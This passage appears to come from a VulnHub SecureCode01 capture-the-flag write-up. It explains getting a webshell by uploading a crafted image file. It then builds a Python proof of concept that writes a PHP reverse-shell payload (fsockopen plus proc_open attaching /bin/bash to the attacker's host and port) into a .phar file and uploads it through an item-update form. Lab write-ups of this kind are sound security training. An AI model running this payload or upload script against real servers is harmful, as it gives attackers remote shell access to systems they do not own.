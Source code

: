 With that, we can update an existing item and change the image to our crafted payload file to get a webshell.

![Our Payload](/assets/posts/vulnhub/securecode01/images/Pasted%20image%2020231125183156.png)
![result of the id command](/assets/posts/vulnhub/securecode01/images/Pasted%20image%2020231125183304.png)

Time to automate the thing.

# Remote Code Execution PoC

Our goal now is to get a reverse shell; continuing on our previous PoC, we'll add a few more functions to::
- Create a `php .phar` file containing our reverse shell payload.
- Update an Item's image to our crafted Phar file, 
- Visit the file once uploaded to execute it and get the reverse shell. 

Start by creating the function to create the Phar file with the PHP reverse shell payload:

```python
SCRIPT_DIR = os.path.abspath( os.path.dirname( __file__ ) )
REVSHELL_DIR = SCRIPT_DIR + "/normal.phar"
REVSHELL_UPLOAD_PATH = "/item/image/normal.phar"
# Step 5: Create the reverse shell file to be uploaded
def create_rev_shell(HOST, PORT):
    payload = f'<?php $sock=fsockopen("{HOST}",{PORT});$proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
    with open(REVSHELL_DIR, "w") as revshell:
        revshell.write(payload)
    print(f"[+] Reverse Shell Created; The target will connect to {HOST}:{PORT}")
    return True
```

Afterwards, create the function to update an item info and upload our `phar` payload as the image.

```python
# Step 6: Update Item
UPDATE_ITEM_PAGE = "/item/updateItem.php"
def update_item(session):
    data = {"id": "1", "id_user": "1", "name": "Testing Item", "description": "Description of the test item", "price": "100" }
    file = {"image": ("normal.phar", open(REVSHELL_DIR, "rb"))}
    response = session.post(BASE_URL + UPDATE_ITEM_PAGE, files=file, data=data)

    if "Success" in response.text:
        print(f"[+] Print Reverse Shell uploaded, find it in {REVSHELL_UPLOAD_PATH}.")
        return True
    return False
```

